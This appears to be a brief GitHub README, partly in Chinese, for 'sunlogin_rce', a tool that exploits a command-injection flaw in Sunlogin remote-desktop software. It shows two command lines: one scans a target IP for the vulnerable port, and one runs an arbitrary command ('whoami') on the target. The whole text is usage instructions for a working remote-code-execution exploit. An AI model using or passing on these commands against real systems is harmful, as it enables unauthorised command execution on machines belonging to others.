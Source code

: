 # sunlogin_rce
向日葵 命令注入（rce）利用
sunlogin_rce.exe  -H 192.168.10.129  扫描存在rce端口

sunlogin_rce.exe  -H 192.168.10.129 -P 31528 -C whoami  执行命令
